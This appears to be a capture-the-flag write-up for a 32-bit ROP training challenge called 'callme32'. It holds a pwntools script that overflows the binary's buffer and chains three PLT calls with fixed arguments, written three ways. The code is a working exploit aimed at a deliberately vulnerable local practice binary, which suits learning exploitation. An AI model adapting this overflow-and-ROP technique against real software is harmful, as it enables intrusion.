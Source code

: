 
# x86 (32 bit) architecture

in this case the solution is similar to the solution abow.
here i have wrote three solution. Pratically are the same but the sintax inside the pwntools script is different


```python
from pwn import *
context.binary = elf = ELF('./callme32')
offset = 44

callme_one   = elf.plt['callme_one']   
callme_two   = elf.plt['callme_two']   
callme_three = elf.plt['callme_three'] 

arg1 = 0xdeadbeef
arg2 = 0xcafebabe
arg3 = 0xd00df00d

pop_esi_edi_ebp = 0x080487f9
pop_ebp = 0x080487fb
pop_edi_ebp = 0x080487fa

# SOLUTION 1
insert_prm = p32(pop_esi_edi_ebp)+p32(arg1)+p32(arg2)+p32(arg3)
#payload = b'A'*offset + p32(callme_one) + insert_prm + p32(callme_two) + insert_prm + p32(callme_three) + insert_prm 

# SOLUTION 2
rop = ROP(elf)
param = [0xdeadbeef, 0xcafebabe, 0xd00df00d]

rop.callme_one(*param)
rop.callme_two(*param)
rop.callme_three(*param)
#payload = b'A'*offset + rop.chain()

# SOLUTION 3
rop = ROP(elf)
rop.call('callme_one', [0xdeadbeef, 0xcafebabe, 0xd00df00d])
rop.call('callme_two', [0xdeadbeef, 0xcafebabe, 0xd00df00d])
rop.call('callme_three', [0xdeadbeef, 0xcafebabe, 0xd00df00d])

payload = b'A'*offset + rop.chain()

p = elf.process()
#gdb.attach(p)

p.recv()
p.sendline(payload)
#p.interactive
log.info(p.recvall())
```
